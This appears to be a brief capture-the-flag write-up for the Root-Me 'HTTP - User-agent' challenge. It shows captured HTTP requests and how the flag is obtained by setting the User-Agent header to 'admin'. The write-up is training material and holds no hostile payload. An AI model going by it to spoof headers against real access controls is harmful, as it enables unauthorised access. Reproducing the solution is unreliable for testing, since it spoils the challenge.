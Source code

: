 # Challange Info

Name : HTTP - User-agent

Difficulty : Very easy

Category : Web Server

Link : https://www.root-me.org/en/Challenges/Web-Server/HTTP-User-agent

# Writeup

Refreshing the webpage and capturing the request through burpsuite.

Sending the request to repeater.

```
GET /web-serveur/ch2/ HTTP/1.1

Host: challenge01.root-me.org

Cache-Control: max-age=0

Upgrade-Insecure-Requests: 1

User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.0.0 Safari/537.36

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7

Accept-Encoding: gzip, deflate, br

Accept-Language: en-US,en;q=0.9

sec-gpc: 1

Connection: keep-alive
```

Chainging user-agent to `admin`.

```
GET /web-serveur/ch2/ HTTP/1.1

Host: challenge01.root-me.org

Cache-Control: max-age=0

Upgrade-Insecure-Requests: 1

User-Agent: admin

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7

Accept-Encoding: gzip, deflate, br

Accept-Language: en-US,en;q=0.9

sec-gpc: 1

Connection: keep-alive
```

In response of this request I got the flag.
